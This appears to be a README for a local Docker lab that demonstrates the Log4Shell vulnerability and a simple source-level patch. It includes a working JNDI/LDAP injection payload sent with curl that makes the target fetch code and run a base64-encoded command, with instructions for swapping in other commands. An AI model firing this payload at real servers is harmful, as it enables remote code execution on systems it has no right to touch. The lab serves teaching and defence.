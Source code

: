 # **Githubs & Websites Referenced**:
- [Tangxiaofeng7’s Log4J PoC Repo](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [pimps JNDI-Injection-Exploit LDAP Server](https://github.com/pimps/JNDI-Exploit-Kit)
- [christophetd’s vulnerable Springboot Server](https://github.com/christophetd/log4shell-vulnerable-app/pkgs/container/log4shell-vulnerable-app)
- [Cygenta Log4Shell Demo Walkthrough](https://www.cygenta.co.uk/post/your-own-log4shell-demo)

For this demo we will be using three docker containers to run different web applications. Two containers will be running a Springboot web server which uses a vulnerable version of Log4J2, one of which will be vulnerable and one which we have patched. This simple web app logs the value of the X-Api-Version header from web requests. The third container will be running the JNDI Injection LDAP server which responds to the LDAP requests from the web server and creates malicious Java classes. 
***If you have issues with docker, try running with sudo.***
# **Vulnerable Demo:**

For simplicity we will be using three terminals: one to run and interact with the web app, one to run the LDAP server, and one to send the malicious payload.

- Step 1: Start a docker network, which allows multiple containers to communicate, enter the command:
`docker network create log4jnetwork`
- Step 2: Run the vulnerable application that will be exploited. In the Application Terminal, enter the command:
`docker run --rm --network log4jnetwork --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
- Step 3: Set up LDAP. In the LDAP Terminal, enter the command:
`docker run --rm --network log4jnetwork --name log4jldapserver -p 1389:1389 -p 8888:8888 cygenta/log4jldap`
- Step 4: Run the exploit. In the Command Terminal enter the command:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}'`
“dG91Y2ggL3RtcC9oYWNrZWQ=” is the base64 encoded command to touch a file named “hacked”
For additional commands, base64 encode them and include them in the above command after “Base64/”
- Step 4.1: Check the file has been created. In the Command Terminal, enter the command:
`docker exec vulnerable-app ls /tmp`


# **Patched Demo**:
 
Open three terminals as done in the first unpatched demo.

- Step 1: Start a docker network which allows multiple containers to communicate, enter the command:
`docker network create log4jfixednet`
- Step 2: Clone the github with the patched application. In the Application Terminal, enter the command:
	`git clone https://github.com/wyatwrig/log4j-patch`
Change directory so you are in /log4j-patch.
- Step 3: Build the patched application. In the Application Terminal, enter the command:
	`docker build -t fixed .`
This may take a few minutes.
- Step 4: Run the patched application that cannot be exploited. In the Application Terminal, enter the command:
`docker run --rm --network log4jfixednet --name fixed-app -p 8080:8080 fixed`
- Step 5: Set up LDAP. In the LDAP Terminal, enter the command:
`docker run --rm --network log4jfixednet --name log4jldapserver -p 1389:1389 -p 8888:8888 cygenta/log4jldap`
- Step 6: Run the exploit. This command sends an HTTP packet to the webserver with the X-Api-Version header set to the JNDI payload. In the Command Terminal enter the command:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}'`
- Step 6.1: You should see “JNDI attempted” in the terminal. To check the file has not been created, enter the command:
`docker exec fixed-app ls /tmp`

We patched the app by changing the source code for the vulnerable app. We included an if statement that checked whether the input contained “jndi”. We changed this in the file /log4j-patch/src/main/java/fr/christophetd/log4shell/vulnerableapp/MainController.java. The below image is a screenshot of the updated source code:

![Patched Java Code](./thisone.png)

This patch does not prevent all further attacks on Log4j. To stop all possible attacks, one would need to update their spring boot version which includes an updated Log4j which disables JNDI LDAP lookups entirely. 

